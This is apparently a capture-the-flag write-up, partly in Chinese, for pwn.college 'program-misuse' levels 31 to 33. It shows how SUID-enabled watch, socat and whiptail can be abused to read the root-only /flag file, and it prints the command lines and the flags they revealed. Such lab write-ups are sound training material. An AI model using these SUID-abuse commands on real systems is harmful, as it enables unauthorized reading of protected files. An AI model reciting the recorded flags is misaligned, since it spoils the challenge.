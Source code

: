## level31 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-31:~$ sh file.sh
Welcome to ./babysuid_level31!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/watch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level31) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/watch!
```
`watch`工具：执行命令然后全屏输出
```
hacker@program-misuse-level-31:~$ watch -x cat /flag
### 使用后会输出到全屏
pwn.college{UMl5SVp_YjbBiTIgIIiAi7i_5fg.01M3EDL2QjMyMzW}
```
很神奇的工具，然而发现tldr不怎么全，只有常见命令，到CTF的环境之中就不太适用了
## level32 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-32:~$ sh file.sh
Welcome to ./babysuid_level32!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/socat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level32) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/socat!
```
`socat`：是个和socket有关的工具。
```
hacker@program-misuse-level-32:~$ socat -u "file:/flag" -
pwn.college{QKHthQcoA6ncJKsiqFJMZ6ITybE.0FN3EDL2QjMyMzW}
hacker@program-misuse-level-32:~$
```
## level33 Requires some light programming to read the flag.!
```
hacker@program-misuse-level-33:~$ sh file.sh
Welcome to ./babysuid_level33!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/whiptail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level33) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/whiptail!
```
`whiptail`：展示shell的对话框的工具
```
hacker@program-misuse-level-33:~$ whiptail --textbox /flag 20 40
pwn.college{4r_plp-YJyPyhT4_GiJQz042S5b.0VN3EDL2QjMyMzW}
```